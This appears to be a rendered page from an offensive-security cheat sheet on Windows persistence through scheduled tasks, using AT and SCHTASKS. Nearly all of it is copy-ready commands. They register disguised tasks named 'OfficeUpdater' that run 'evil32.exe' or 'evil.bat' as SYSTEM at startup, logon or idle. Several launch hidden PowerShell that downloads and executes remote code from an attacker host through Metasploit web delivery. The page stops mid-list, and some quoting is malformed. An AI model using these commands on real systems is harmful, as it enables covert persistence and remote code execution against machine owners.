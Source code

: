 
#### Task Scheduling

##### AT
Executes as system and must be an Admin to run it. Check groups with whoami /groups
```
    at 13:20 /interactive cmd
    
    net user \\target /user:Domain\user pass
    net time \\target
    at \\target 13:20 c:\temp\evil.bat
```

##### SCHTASKS
Any user can create a task

Schedule a binary to run with arguments on system events
``` 
    #On System Startup
    schtasks /create /TN OfficeUpdaterA /tr ""c:\evil32.exe" -k password -n services" /SC onstart /RU system /RL HIGHEST
    schtasks /create /TN OfficeUpdaterD /tr "\"c:\Program Files\evil32.exe\" -k password -n services" /SC onstart /RU system /RL HIGHEST
    
    #On User Login
    schtasks /create /TN OfficeUpdaterB /tr ""c:\evil32.exe" -k password -n services" /SC onlogon
    schtasks /create /TN OfficeUpdaterE /tr "\"c:\Program Files\evil32.exe\" -k password -n services" /SC onlogon   

    #On Idle
    schtasks /create /TN OfficeUpdaterC /tr ""c:\evil32.exe" -k password -n services" /SC onidle /i 30''''
    schtasks /create /TN OfficeUpdaterF /tr "\"c:\Program Files\evil32.exe\" -k password -n services" /SC onidle /i 60
```

Use the Powershell Web Delivery (Download and Execute) module in Metasploit 'exploit\windows\misc\psh_web_delivery'
```
    #(X86) - On User Login
    schtasks /create /tn OfficeUpdaterA /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('''http://<ip address>/<uri>'''))'" /sc onlogon /ru System
 
    #(X86) - On System Start
    schtasks /create /tn OfficeUpdaterB /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('''http://<ip address>/<uri>'''))'" /sc onstart /ru System
 
    #(X86) - On User Idle (30mins)
    schtasks /create /tn OfficeUpdaterC /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('''http://<ip address>/<uri>'''))'" /sc onidle /i 30
 
    #(X64) - On User Login
    schtasks /create /tn OfficeUpdaterA /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('''http://<ip address>/<uri>'''))'" /sc onlogon /ru System
 
    #(X64) - On System Start
    schtasks /create /tn OfficeUpdaterB /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('''http://<ip address>/<uri>'''))'" /sc onstart /ru System
 
    #(X64) - On User Idle (30mins)
```